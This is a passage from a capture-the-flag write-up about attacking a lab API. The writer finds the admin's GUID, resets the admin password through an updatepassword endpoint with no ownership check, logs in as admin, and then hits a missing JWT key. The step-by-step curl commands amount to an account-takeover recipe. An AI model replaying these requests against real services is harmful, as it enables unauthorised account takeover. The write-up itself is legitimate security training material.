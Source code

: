 Now we can access the authenticated endpoints, starting with the `/docs` to check whether there are more endpoints:
`curl -v -H "authorization: bearer $TOKEN" http://universal-ship-api.cns-jv.tcc/docs` and then `/openapi.json` will show that there are also endpoints:
`/api/v1/user/updatepassword` for POST method and `/api/v1/admin/getFlag` for PUT.

As expected, trying the `getFlag` will not give us anything (yet) as I'm just an ordinary user.

Let's see - perhaps I can find out who's admin and get/change his password?

`curl -v -H "authorization: bearer $TOKEN" http://universal-ship-api.cns-jv.tcc/api/v1/user/1`
-> 
`{"guid":"8f812b13-51a7-4ddc-8f99-84913b78be2f","email":"admin@local.tcc","date":null,"time_created":1690796892351,"admin":true,"id":1}` (note that the GUID changes with appliance restarts)

`curl -v -H "authorization: bearer $TOKEN" -XPOST http://universal-ship-api.cns-jv.tcc/api/v1/user/updatepassword -H 'content-type: application/json' --data '{"guid": "8f812b13-51a7-4ddc-8f99-84913b78be2f"", "password": "pass1"}'`
-> 201 Created (y)

`curl -v -XPOST http://universal-ship-api.cns-jv.tcc/api/v1/user/login -F username="admin@local.tcc" -F password="pass1" | jq '.access_token' -r | read ADMIN_TOKEN`


And indeed I'm logged in as admin now:
`curl -v -H "authorization: bearer $ADMIN_TOKEN" http://universal-ship-api.cns-jv.tcc/api/v1/admin/`
-> `{"results":true}`

But considering we haven't used the `file` endpoint, I suppose it would be too easy if the `getFlag` endpoint would just return the flag now, right?
`curl -v -XPUT -H "authorization: bearer $ADMIN_TOKEN" http://universal-ship-api.cns-jv.tcc/api/v1/admin/getFlag`
-> `{"detail":"flag-read key missing from JWT"}`

Right. So I'll have to add the required key into JWT payload.